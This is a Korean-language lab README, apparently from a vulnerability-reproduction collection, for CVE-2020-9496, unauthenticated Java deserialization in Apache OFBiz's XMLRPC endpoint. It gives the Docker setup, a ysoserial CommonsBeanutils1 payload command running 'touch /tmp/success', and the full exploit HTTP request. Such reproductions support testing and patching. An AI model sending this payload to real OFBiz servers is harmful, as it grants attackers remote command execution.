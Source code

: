 # ApacheOfBiz에서 XMLRPC 인자에 대한 안전하지 않은 역직렬화 (CVE-2020-9496)

Apache OFBiz는 오픈 소스 ERP(enterprise resource planning, 전사적 자원 관리) 시스템으로 이는 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 기업 애플리케이션 제품군을 제공한다.

OfBiz는 `/webtools/control/xmlrpc`에 XMLRPC 엔드포인트를 노출하는데 대게 인증은 서비스별로 적용되므로 이는 인증되지 않은 엔드포인트이다. 하지만, XMLRPC 요청은 인증 전에 처리되기에 이 과정에서 원격 호출로 인한 직렬화된 인자가 역직렬화된다. 따라서 클래스 경로에 원격 코드 실행을 위한 도구로 사용할 수 있는 클래스가 포함되어 있으면, 공격자는 OfBiz 서버에서, OfBiz를 실행하는 서블릿 컨테이너와 동일한 권한을 가지는 등의 임의의 시스템 명령을 실행할 수 있다. 


## 실행 환경 구성

Apache OfBiz (17.12.01)를 실행하기 위해 아래 명령어를 입력하자:

```
docker compose up -d
```
 
잠시 후, 로그인 페이지가 나타나는데 `https://your-ip/myportal/control/main`에서 확인할 수 있다.

## 취약점 재현

CommonsBeanutils1 payload 생성:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

`[base64-payload]`를 교체하고, request 보내기:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` 컨테이너에서 실행된 것을 확인할 수 있다:

![](3.png)


## 참조:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html
